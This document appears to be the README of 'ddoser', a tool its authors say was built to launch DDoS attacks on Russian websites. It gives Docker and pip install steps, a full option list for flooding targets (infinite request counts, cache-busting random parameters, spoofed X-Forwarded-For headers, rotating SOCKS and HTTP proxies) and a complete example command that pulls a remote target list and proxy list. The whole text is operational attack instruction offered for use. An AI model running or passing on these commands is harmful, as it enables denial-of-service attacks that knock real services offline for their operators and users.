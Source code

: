 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT            ddos target url
  --target-urls-file TEXT      path or url to file contains urls to ddos
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  --count INTEGER              requests count (0 for infinite)
  --timeout INTEGER            requests timeout
  -v, --verbose                Show verbose log
  --ignore-response            do not wait for response body
  --with-random-get-param      add random get argument to prevent cache usage
  --user-agent TEXT            custom user agent
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --random-xff-ip              set random ip address value for X-Forwarder-For header
  --custom-headers TEXT        set custom headers as json
  --stop-attack INTEGER        stop the attack when the target is down after N tries
  --shuffle-proxy              Shuffle proxy list on application start
  -H, --header <TEXT TEXT>...  custom header
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**ddoser** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list   

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
